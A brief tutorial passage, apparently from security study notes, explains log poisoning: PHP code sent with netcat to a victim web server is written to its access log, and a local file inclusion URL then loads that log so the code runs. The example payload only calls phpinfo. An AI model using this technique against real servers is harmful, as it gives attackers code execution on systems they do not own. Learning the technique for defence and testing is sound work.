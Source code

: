 Log poisoning is a technique where an attacker injects executable code into a web server's log file and then uses an LFI vulnerability to include and execute this log file. 

**Example:**
1. An attacker sends a `netcat` request to the vulnerable machine containing a PHP code:
	```bash
	nc VICTIM_IP 80
	<?php echo phpinfo(); ?>
	```
	The code will then be logged in the server's `access logs`.

2. The attacker then uses LFI to include the access log file:
	`hxxp://IP/session.php?page=/var/log/apache2/access.log`